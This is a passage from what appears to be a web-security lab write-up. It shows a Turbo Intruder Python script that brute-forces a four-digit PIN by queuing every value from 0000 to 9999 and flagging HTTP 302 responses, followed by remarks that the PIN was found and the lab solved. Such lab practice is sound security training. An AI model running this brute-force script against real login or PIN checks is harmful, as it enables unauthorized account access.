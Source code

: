 ```py
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           #pipeline=False,
                           engine=Engine.BURP
                           )
    for i in range(9999):
        engine.queue(target.req, '{:d}'.format(i).zfill(4))
        

@MatchStatus(302)
def handleResponse(req, interesting):
    if interesting:
        table.add(req)

```

There's a PIN

![picture 90](/assets/images/21bc0d3a8ee36cb7aedf435d9ca04973da6b2b07e5158f414076a0c8e554af70.png)

I haven't thought of that, but attack should've been stopped as soon as `HTTP 302` was returned.

Anyways, the lab has been solved!

![picture 91](/assets/images/d0d86b459012cc3e0d2e1dc25c7a0e2c2541ada7828b2391c9b986b21369bb61.png)  

